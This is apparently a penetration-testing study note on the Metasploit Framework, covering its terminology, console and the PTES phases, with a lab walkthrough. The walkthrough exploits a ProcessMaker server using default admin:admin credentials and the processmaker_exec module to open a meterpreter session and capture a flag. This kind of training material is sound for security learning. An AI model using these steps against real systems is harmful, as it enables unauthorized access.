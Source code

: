 # 6 - Exploitation Frameworks

## <mark style="color:red;">The Metasploit Framework (MSF)</mark>

* The Metasploit Framework (MSF) is an open-source, robust penetration testing and exploitation framework that is used by penetration testers and security researchers worldwide.
* It provides penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle.
* It is also used to develop and test exploits and has one of the world's largest database of public, tested exploits.
* The Metasploit Framework is designed to be modular, allowing for new functionality to be implemented with ease.

### **Essential Terminology**

* **Interface** - Methods of interacting with the Metasploit Framework.
* &#x20;**Module** - Pieces of code that perform a particular task, an example of a module is an exploit.
* **Vulnerability** - Weakness or flaw in a computer system or network that can be exploited.
* **Exploit** - Piece of code/module that is used to take advantage of a vulnerability within a system, service or application.
* **Payload** - Piece of code delivered to the target system by an exploit with the objective of executing arbitrary commands or providing remote access to an attacker.
* **Listener** - A utility that listens for an incoming connection from a target.

### **Metasploit Framework Console**

* The Metasploit Framework Console (MSFconsole) is an easy-to-use all in one interface that provides you with access to all of the functionality of the Metasploit Framework.

### **Penetration Testing With MSF**

* The MSF can be used to perform and automate various tasks that fall under the penetration testing life cycle.
* In order to understand how we can leverage the MSF for penetration testing, we need to explore the various phases of a penetration test and their respective techniques and objectives.
* We can adopt the PTES (Penetration Testing Execution Standard) as a roadmap to understanding the various phases that make up a penetration test and how Metasploit can be integrated in to each phase.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Practical Demonstration

{% code overflow="wrap" %}
```bash
# nmap scan, we exploited the http server (process maker)
# we did a google search for the default credentials admin:admin

# click the [Admin] tab, Users tab or Settings tab, System information(get the version)-2.5.0

# we do a search with "searchsploit"
searchsploit ProcessMaker

# create a workspace, search ProcessMaker 
use exploit/multi/http/processmaker_exec
options
set PASSWORD admin
set USERNAME admin
set RHOSTS $ip
run/exploit # we get a meterpreter session.
# get the flag in the C:\ root dir. 
```
{% endcode %}









